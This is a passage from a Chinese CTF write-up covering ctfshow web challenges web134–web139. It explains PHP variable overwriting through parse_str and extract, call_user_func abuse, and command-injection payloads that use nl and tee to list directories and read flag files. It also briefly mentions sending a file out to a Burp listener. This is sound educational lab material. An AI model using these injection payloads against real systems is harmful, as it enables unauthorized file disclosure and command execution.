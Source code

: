 解释一下就是在ctfshow的服务器，发送了一个post请求到我们的burp上面，同时带了一个文件就是flag.php。
测试如下：
[![](http://ltfa1l.top/wp-content/uploads/2021/02/wp_editor_md_2b351a7db1d71b42ed0a2c2cdeda442e.jpg)](wp_editor_md_2b351a7db1d71b42ed0a2c2cdeda442e.jpg)

## web134

考点：get的理解和extract变量覆盖
首先，key1和key2的get和post不能有，所以用get方法传入?_POST[key1]=36d&_POST[key2]=36d
然后在parse_str的时候，解析成了数组$_POST的值，然后extract再把这个数组里面的键-键值给解析出来。

    ?_POST[key1]=36d&_POST[key2]=36d

## web135

wp写的是ping命令带出文件，我这里直接非预期nl了。

    ?F=`$F `;nl flag.php->fx.txt

## web136

考点：linux写文件命令tee的使用
首先看一下目录里面的文件：

    ?c=ls'tee fx

然后访问目录下的fx，发现只有index.php
继续，查看根目录：

    ?c=ls /'tee fx

发现根目录下有f149_15_h3r3。
查看即可。

    ?c=nl /f149_15_h3r3'tee fx

## web137

考点：php基础知识，调用类中的函数
php中->和::调用类中的成员的区别：
->用于动态语境中处理某个类的实例
而::可以调用一个静态的不依赖其他类的方法。

## web138

考点：call_user_func的使用
call_user_func除了可以直接传字符串，也可以传数组，借用羽师傅的例子就是：

    call_user_func(array($classname,$functionname))

所以payload：

    ctfshow[0]=ctfshow&ctfshow[1]=getFlag

## web139
